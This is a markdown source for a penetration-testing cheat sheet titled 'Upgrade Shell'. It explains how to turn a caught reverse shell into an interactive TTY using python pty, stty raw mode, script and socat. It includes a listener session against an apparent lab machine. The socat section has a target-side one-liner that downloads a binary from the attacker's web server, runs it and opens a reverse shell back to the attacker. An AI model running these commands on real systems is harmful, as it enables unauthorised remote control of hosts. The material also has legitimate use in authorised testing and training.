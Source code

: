 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["Reverse Shell", "Shell", "Python", "Bash", "Sh", "Tty", "Socat"]
---
```


### Check Installed Binaries

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

{{< tab set1 tab1 >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.55] 33490
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ 
zsh: suspended  rlwrap nc -lvnp 1337
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console {class="sample-code"}
$ stty raw -echo; fg
[1]  + continued  rlwrap nc -lvnp 1337
tomcat@kotarak-dmz:/$ 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
script -qc /bin/bash /dev/null
```

{{< /tabcontent >}}
